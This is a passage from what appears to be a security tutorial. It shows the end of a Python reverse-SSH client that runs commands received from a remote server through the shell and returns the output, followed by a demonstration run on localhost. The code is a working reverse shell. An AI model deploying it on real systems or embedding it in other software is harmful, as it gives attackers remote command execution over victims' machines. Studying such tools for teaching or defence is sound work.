 ```python
                cmd_output = subprocess.check_output(command, shell=True)
                ssh_session.send(cmd_output)
            except Exception, e:
                ssh_session.send(str(e))
        client.close()

def main():
    if not len(sys.argv[1:]):
        usage()
    IP = '0.0.0.0'
    USER = ''
    PASSWORD = ''
    PORT = 0
    try:
        opts = getopt.getopt(sys.argv[2:],"p:u:a:", \
            ["PORT", "USER", "PASSWORD"])[0]
    except getopt.GetoptError as err:
        print str(err)
        usage()
    IP = sys.argv[1]
    print "[*] Initializing connection to " + IP
    for t in opts:
        if t[0] in ('-a'):
            PASSWORD = t[1]
        elif t[0] in ('-p'):
            PORT = int(t[1])
        elif t[0] in ('-u'):
            USER = t[1]
        else:
            print "This option does not exist!"
            usage()
    if USER:
        print "[*] User set to " + USER
    if PORT:
        print "[*] The port to be used is %d. " % PORT
    if PASSWORD:
        print "[*] A password with length %d was submitted. " %len(PASSWORD)
    ssh_client(IP, PORT, USER, PASSWORD)

if __name__ == '__main__':
    main()
```

### Running both Scripts
Let's run each script in a different terminal. First, the server:
```bash
$ ssh_server.py localhost 22
[+] Listening for connection ...
```

Then the client:
```sh
$ ssh_client_reverse.py localhost -p 22 -u buffy -a killvampires
[*] Initializing connection to localhost
[*] User set to buffy
[*] The port to be used is 22.
[*] A password with length 12 was submitted.
Welcome to Buffy's SSH
```
